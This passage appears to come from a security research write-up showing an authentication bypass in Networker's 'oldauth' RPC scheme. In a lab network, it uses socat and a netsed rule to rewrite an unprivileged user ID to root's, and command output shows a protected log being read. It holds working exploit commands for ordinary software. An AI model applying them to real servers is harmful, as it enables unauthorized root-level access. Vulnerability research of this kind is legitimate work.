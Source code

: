 ![Networker RPC request sent from Windows by Administrators member]({{site.url}}/assets/oldauth_windows_admin.png)


Demonstrating that this is how Networker authenticates users with oldauth can be done with socat and netsed placed between a Networker client running as an unprivileged user and a remote Networker server.

![oldauth_patching_diagram.png]({{site.url}}/assets/oldauth_patching_diagram.png)


Launching socat as a simple TCP forwarder and netsed with a match and replace rule to replace the user identifier 0x03e8 with user identifier 0x0000.

```
socat -v -v -v TCP4-LISTEN:7938,reuseaddr,fork TCP:192.168.121.4:7938
netsed tcp 7937 192.168.121.4 7937 s/%03%e8/%00%00 
```

#### Live Patching RPC Requests (Linux Server)

If we send an RPC request directly to the remote server, we get a permission refused:

```
EXPORT RCMD='nsr_render_log /nsr/logs/daemon.raw'
./nsrexec -c 192.168.121.4
145843:nsr_render_log: Unable to open log file 'daemon.raw': Permission refused
```

If we send the request through our "patcher host", the remote server genuinely think we are root and provide us with the file content we requested through RPC:

```
EXPORT RCMD='nsr_render_log /nsr/logs/daemon.raw'
./nsrexec -c 192.168.121.1
101040 22/02/21 13:32:43  1 3 0 2795517760 4001 0 networker-server nsrexecd RAP notice
---snip---
```

When the request goes through, we can see netsed patching the user identifier:

```
netsed tcp 7937 192.168.121.4 7937 s/%03%e8/%00%00 
netsed 1.2 by Julien VdG <julien@silicone.homelinux.org>
      based on 0.01c from Michal Zalewski <lcamtuf@ids.pl>
[*] Parsing rule s/%03%e8/%00%00...
[+] Loaded 1 rule...
[+] Using fixed forwarding to 192.168.121.4,7937.
[+] Listening on port 7937/tcp.
[+] Got incoming connection from 192.168.121.140,38493 to 192.168.121.1,7937
[*] Forwarding connection to 192.168.121.4,7937
[+] Caught client -> server packet.
    Applying rule s/%03%e8/%00%00...
    Applying rule s/%03%e8/%00%00...
    Applying rule s/%03%e8/%00%00...
    Applying rule s/%03%e8/%00%00...
[*] Done 4 replacements, forwarding packet of size 164 (orig 164).
--snip--
```
